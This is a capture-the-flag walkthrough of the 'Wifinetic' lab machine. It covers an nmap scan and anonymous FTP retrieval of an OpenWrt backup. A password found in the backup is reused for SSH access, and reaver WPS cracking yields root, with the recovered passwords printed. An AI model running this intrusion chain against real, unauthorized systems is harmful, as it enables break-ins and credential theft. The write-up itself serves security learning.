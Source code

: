 # Box: Wifinetic
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.229.90 -v -p- -T4```

```
Nmap scan report for 10.129.229.90
Host is up (0.21s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.61
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
53/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/20%OT=21%CT=1%CU=32910%PV=Y%DS=2%DC=T%G=Y%TM=65326C
OS:FB%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST
OS:11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)EC
OS:N(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Uptime guess: 16.447 days (since Wed Oct  4 02:21:21 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   220.09 ms 10.10.14.1
2   220.08 ms 10.129.229.90

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 13:05:15 2023 -- 1 IP address (1 host up) scanned in 641.08 seconds
```
From our scan we have 2 open ports. Port 21 which runs the ft[ service and port 22 which rus the ssh service. Our enumeration today will be focused on port 21


# Enumeration 

From the scan we can see that Anonymous login is allowed for the ftp server. This means we can login with the creds

username:```anonymous```          password:```anonymous```

command:```ftp 10.129.229.90```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4a6676f5-fe30-464b-9592-3c1e26884f62)

Lets use the ```get``` command to transfer all the files to our machine

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/da88d946-6bcd-4fce-b79f-0531e77c02b6)

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/wifinetic]
└─$ ls -la
total 2616
drwxr-xr-x  2 bl4ck4non bl4ck4non    4096 Oct 20 13:01 .
drwxr-xr-x 12 bl4ck4non bl4ck4non    4096 Oct 20 12:48 ..
-rw-r--r--  1 bl4ck4non bl4ck4non    4434 Jul 31 12:03 MigrateOpenWrt.txt
-rw-r--r--  1 bl4ck4non bl4ck4non 2501210 Jul 31 12:03 ProjectGreatMigration.pdf
-rw-r--r--  1 bl4ck4non bl4ck4non   60857 Jul 31 12:03 ProjectOpenWRT.pdf
-rw-r--r--  1 bl4ck4non bl4ck4non   40960 Sep 11 16:25 backup-OpenWrt-2023-07-26.tar
-rw-r--r--  1 bl4ck4non bl4ck4non   52946 Jul 31 12:03 employees_wellness.pdf
```
Lets extract the file ```backup-OpenWrt-2023-07-26.tar```

command:```tar -xvf backup-OpenWrt-2023-07-26.tar```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/wifinetic]
└─$ tar -xvf backup-OpenWrt-2023-07-26.tar 
./etc/
./etc/config/
./etc/config/system
./etc/config/wireless
./etc/config/firewall
./etc/config/network
./etc/config/uhttpd
./etc/config/dropbear
./etc/config/ucitrack
./etc/config/rpcd
./etc/config/dhcp
./etc/config/luci
./etc/uhttpd.key
./etc/uhttpd.crt
./etc/sysctl.conf
./etc/inittab
./etc/group
./etc/opkg/
./etc/opkg/keys/
./etc/opkg/keys/4d017e6f1ed5d616
./etc/hosts
./etc/passwd
./etc/shinit
./etc/rc.local
./etc/dropbear/
./etc/dropbear/dropbear_ed25519_host_key
./etc/dropbear/dropbear_rsa_host_key
./etc/shells
./etc/profile
./etc/nftables.d/
./etc/nftables.d/10-custom-filter-chains.nft
./etc/nftables.d/README
./etc/luci-uploads/
./etc/luci-uploads/.placeholder
```
nice nice

Going through the extracted files, I found something interesting

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6e4010db-ec46-4b2d-9723-87fdcee42c38)

We found a password, but the password belongs to which user??? Lets check the ```passwd``` file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8fc203c0-2312-4f6d-a75d-152f0e102ac9)

So  there's a user ```netadmin```. Well, it's possible the password we found earlier belongs to this user. Lets try to ssh into the server

username:```netadmin```        password:```VeRyUniUqWiFIPasswrd1!```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/26688291-9b55-48d8-84f3-e43f23d20730)

We are in, soft right??😅. Lets go ahead and escalate our privileges



# Privilege Escalation

Lets check the services running on this server using the command ```service --status-all```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/99e1b543-7e1b-4f25-9831-adf44b1804b2)

We can see from the above screenshot that the ```hostapd``` service is running. 

What's hostapd??

<font color="Green">Hostapd, short for "host access point daemon," is a user space software application used on Unix-like operating systems to create software-based Wi-Fi access points. It plays a key role in turning a network interface (usually a wireless network adapter) into an access point, enabling other devices to connect to it just as they would to a physical Wi-Fi router or access point.
</font>

To know the interface that's being used for monitoring, we can use the ```iwconfig``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/49d511a4-f52a-493f-b5eb-db2882617103)

We found our interface, monitor mode has been enabled for ```mon0``` which enables sniffing of traffic.

When it comes to wifi hacking, I use ```aircrack-ng```, but since it isnt't installed on this server, we'll be using ```reaver```.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2b37345d-9d7b-4f7e-abb9-36c016524e71)

To use the tool, we need to specify the name of the monitor-mode interface to use and the bssid of the target access point. The switch ```-vv``` is just for verbosity.

To get the bssid of the target access point, run the ```ifconfig``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/870672aa-f2c0-431b-a7c4-32ab9bf8a28c)

Now that we've got all that we need, lets run the tool,

command:```reaver -i mon0 -b 02:00:00:00:00:00 -vv```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/81fd8d49-9853-4a48-80c4-23fdcad454a1)

We were able to get a password hehe

Lets ssh into the server as the ```root``` user using that password

username:```root```         password:```WhatIsRealAnDWhAtIsNot51121!```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e567f361-4f81-4a46-ac2e-5a49f49c5207)

We have successfully pwned this box😎

That will be all for today
<br><br>
[Back To Home](../../index.md)

















